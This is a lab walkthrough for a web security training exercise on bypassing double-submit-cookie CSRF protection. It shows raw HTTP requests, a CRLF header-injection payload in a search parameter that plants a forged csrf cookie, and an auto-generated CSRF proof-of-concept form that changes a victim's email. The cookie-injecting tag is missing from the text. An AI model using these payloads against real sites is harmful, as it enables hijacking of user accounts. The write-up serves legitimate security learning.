




# CSRF where token is duplicated in cookie

## Lab Description :


## Overview :
Sites also commonly use a double-submit cookie as a defense against CSRF. In this technique, the state-changing request contains the same random token as both a cookie and a request parameter, and the server checks whether the two values are equal. If the values match, the request is seen as legiti�mate. Otherwise, the application rejects.

If the application uses double-submit cookies as its CSRF defense mechanism, it’s probably not keeping records of the valid token server-side. If the server were keeping records of the CSRF token server-side, it could simply validate the token when it was sent over, and the application would not need to use double-submit cookies in the first place.

The server has no way of knowing if any token it receives is actually legitimate; it’s merely checking that the token in the cookie and the token in the request body is the same.

Bypass this restriction by providing same non legitimate token in both request & body -

```html
POST /password_change
Host: email.example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE; csrf_token=not_a_real_token
(POST request body)
new_password=abc123&csrf_token=not_a_real_token
```

## Solution :
When we login as wiener using the credentials wiener:peter , we can see that there is an option to update email.



When we click update email , browser sends a POST request to /my-account/change-email endpoint.
```html
POST /my-account/change-email HTTP/1.1
Host: 0a5200eb035a4bf3809f127f001f008b.web-security-academy.net
Cookie: session=oJuWDMUGan7TVwoWDo33yLY0YZDxXCCi; csrf=OCdA7UvClyR6Aw4aRGYUKWKZWRYhB3Q8
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://0a5200eb035a4bf3809f127f001f008b.web-security-academy.net
Referer: https://0a5200eb035a4bf3809f127f001f008b.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

email=user%40user.net&csrf=OCdA7UvClyR6Aw4aRGYUKWKZWRYhB3Q8
```
We can see that there is a double submit of csrf token in the cookie and request parameter.

This means that the server is not storing csrf tokens on server side instead it is just comparing whether both the tokens are same . If yes then it accepts the request else it rejects.

So to bypass this , we can give any random token of the same length (the server might be checking the length of the token also) both in cookie and in request parameter.
```html
POST /my-account/change-email HTTP/1.1
Host: 0a5200eb035a4bf3809f127f001f008b.web-security-academy.net
Cookie: session=oJuWDMUGan7TVwoWDo33yLY0YZDxXCCi; csrf=anytoken
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://0a5200eb035a4bf3809f127f001f008b.web-security-academy.net
Referer: https://0a5200eb035a4bf3809f127f001f008b.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

email=pwned%40user.net&csrf=anytoken
```

But we can't directly change the value of csrfkey cookie & send the request, it won't work.

To change the csrfkey value we need to perform Host Header Injection to inject the csrfkey cookie into the victim browser whne he clicks on the link which we create.

#### Injecting csrfkey cookie value -
We need to find any functionality that takes user input. In this case, we have a search functionality.

If we search for any term , we can see from the response that the search we used is getting added as a cookie - Set-Cookie: LastSearchTerm=hello


So with this we can try to inject the csrf cookie value.

Use this payload query in the search parameter of the request - /?search=test%0d%0aSet-Cookie:%20csrf=anytoken%3b%20SameSite=None which decodes to /?search=test Set-Cookie: csrf=anytoken; SameSite=None



From the response we can confirm that we can inject the csrf cookie value by HTTP header injection.

#### Generate csrf POC -

```html
POST /my-account/change-email HTTP/2
Host: 0aa7009804198f7480e676da00a90003.web-security-academy.net
Cookie: session=oJuWDMUGan7TVwoWDo33yLY0YZDxXCCi; LastSearchTerm=hello; csrf=rDAgotYXNjVLeo1Ku6YLvJYzxwVhRL3Y
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://0aa7009804198f7480e676da00a90003.web-security-academy.net
Referer: https://0aa7009804198f7480e676da00a90003.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

email=pwned%40user.net&csrf=anytoken
```

Send this request to CSRF POC generator.

Note that we have only changed the csrf token parameter value to anytoken. The csrf cookie value is still the same. It has to be injected into victim's session. For this we can use a  tag, where we load the url along with HTTP header injection payload to inject the csrfkey value as anytoken . Since there is no image in that url , it will trigger an error. On error it will submit the form.

```text

```
Final POC -
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0aa7009804198f7480e676da00a90003.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pwned&#64;user&#46;net" />
      <input type="hidden" name="csrf" value="anytoken" />
      <input type="submit" value="Submit request" />
    </form>
      
  </body>
</html>
```
Deliver the exploit to victim & solve the lab.



#### Visit The Next Page For The Next Level :)
